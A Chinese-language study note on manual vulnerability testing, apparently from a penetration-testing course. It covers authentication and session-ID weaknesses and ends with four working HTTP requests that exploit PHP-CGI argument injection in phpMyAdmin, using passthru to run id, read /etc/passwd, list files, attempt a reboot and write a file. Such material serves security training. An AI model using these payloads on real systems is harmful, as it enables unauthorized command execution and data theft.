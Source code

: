 

# 手动漏洞挖掘

* [php反弹shell](./[8-10]--手动漏洞挖掘-php反弹shell.md)


---
* 手动漏洞挖掘的原则
* 漏洞的本质
* 身份认证漏洞
* 默认安装漏洞


## 手动漏洞挖掘的原则
1. 所有变量
1. 所有头
1. Cookie的变量
1. 逐个变量删除


## 漏洞的本质
1. 数据与指令的混淆
1. 对用户输入信息过滤不严判断失误，误将指令当数据

## 身份认证漏洞
* 针对身份认证
1. 使用常用弱口令/基于字典的密码暴力破解
1. 测试是否锁定账号
1. 测试基于手机号的用户名破解，可以在站内论坛收集用户信息
1. 查看错误秘密提升信息，可以判断用户名或者密码错误
1. 密码嗅探工具可以直接获取密码

* 会话 SessionID
1. Xss / cookie importer
1. SessionID in URL
1. 使用嗅探工具.
1. 测试 SessionID 是否是长期不变的
1. 破译 SessionID 生成算法
    1. Sequencer
    1. 私有算法
    1. 预判下一次登录时生成的 SessionID
    1. 登出后返回测试

* 密码找回时的漏洞
1. 在 URL 中存在密码的散列值，可以直接进行密码设置


## 默认安装漏洞
* phpMyAdmin/setup
1. Burpsuite 测试命令
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10

 <?php
 passthru('id');
 die(); #dir()终止后续的显示
 ?>
```


2. 查看权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 64
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 die();
 ?>
```
3. 查看可以使用的命令
``` 
 POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 passthru('ls');
 passthru('reboot');	#非管理员权限无法重启
 die();
 ?>
```

4. 测试写入权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('echo "123456789" > a.txt');
 passthru('cat a.txt');
 passthru('ls');
 die();
 ?>
```

